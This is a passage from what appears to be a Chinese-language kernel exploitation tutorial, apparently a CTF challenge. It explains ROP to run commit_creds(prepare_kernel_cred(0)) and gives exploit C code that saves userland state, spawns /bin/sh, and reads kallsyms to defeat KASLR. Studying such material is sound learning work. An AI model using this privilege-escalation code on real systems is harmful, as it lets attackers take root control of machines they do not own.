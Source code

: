 ```c

    return 0;
}
```

>   上面的 ROP 链中，使用了函数指针的方法来执行 `commit_creds(prepare_kernel_cred(0))`，虽然这是在用户函数中去调用内核函数，但是我们还在 ROP 的过程中，还是 ring0 的特权，当然也可以通过直接 ROP 的方法来调用两个函数：

```c
// author: @eastXueLian
// usage : musl-gcc ./exp.c -static -masm=intel -o ./rootfs/exp

#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#define lg(X) printf("\033[1;31;40m[*] %s --> 0x%lx \033[0m\n", (#X), (X))

size_t user_cs, user_ss, user_rflags, user_sp;
void save_status() {
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
    );
    puts("[*]status has been saved.");
}
void get_shell(void) {
    system("/bin/sh");
}

size_t commit_creds_addr, prepare_kernel_cred_addr, kaslr_offset;
void get_func_addrs() {
    FILE *fd = fopen("/tmp/kallsyms", "r");
    size_t cur_addr;
    char cur_type[0x10];
    char cur_func[0x40];
    char found = 0;

    while ( fscanf(fd, "%lx%s%s", &cur_addr, cur_type, cur_func) ) {
        if (found == 2)
            return;
        if (!strcmp(cur_func, "commit_creds")) {
            commit_creds_addr = cur_addr;
            kaslr_offset = commit_creds_addr - 0xffffffff8109c8e0;
            lg(kaslr_offset);
            lg(commit_creds_addr);
            found++;
        }
        if (!strcmp(cur_func, "prepare_kernel_cred")) {
            prepare_kernel_cred_addr = cur_addr;
            lg(prepare_kernel_cred_addr);
            found++;
        }
    }
}

// void get_root() {
    // void* (*a)(int) = prepare_kernel_cred_addr;
```